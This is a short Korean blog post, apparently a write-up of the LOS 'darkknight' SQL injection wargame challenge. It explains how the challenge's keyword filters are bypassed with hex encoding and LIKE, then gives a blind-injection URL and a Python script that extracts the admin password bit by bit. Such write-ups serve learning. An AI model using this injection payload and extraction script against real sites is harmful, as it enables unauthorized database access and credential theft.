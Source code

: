 ```yaml
---
layout: post
title: LOS Darkknight 
date: 2015-10-22 18:14:00 +0900
category: Hacking
---
```

pw 는 '가 필터링 되므로  no  부분에서 공격 

substr, ascii, = 이 필터링 되므로 admin 을  hex로 바꾸고 

=대신 like를 써서 공격한다.


```
http://los.sandbox.cash/chall/darkknight_141d7d5d93452a2e1f8c1ab8ecb81a92.php?no=0||id%20like%200x61646d696e%26%26mid(lpad(bin(ord(mid(pw,1,1))),8,0),8,1)
```







```
import requests
 
 
 
key=""
site=""
q=0
w=1
header={'Cookie':'PHPSESSID='}
for j in range(1,12):
        for i in reversed(range(1,9)):
                site="http://los.sandbox.cash/chall/darkknight_141d7d5d93452a2e1f8c1ab8ecb81a92.php?no="
                site+="0||id%20like%200x61646d696e%26%26mid(lpad(bin(ord(mid(pw,"+str(j)+",1))),8,0),"+str(i)+",1)"
                print (site)
                r=requests.put(site,headers=header)
                
                if "<br><h2>Hello admin" in r.text:
                  q+=w
                w=w*2
        key+=chr(q)
        print ("\nkey : "+key+"\n")
        q=0
        w=1
                
```





예전에 풀었던 풀이는 잃어버려서 진우껄 빌려왔다.



출처 : http://unknown84.tistory.com/16





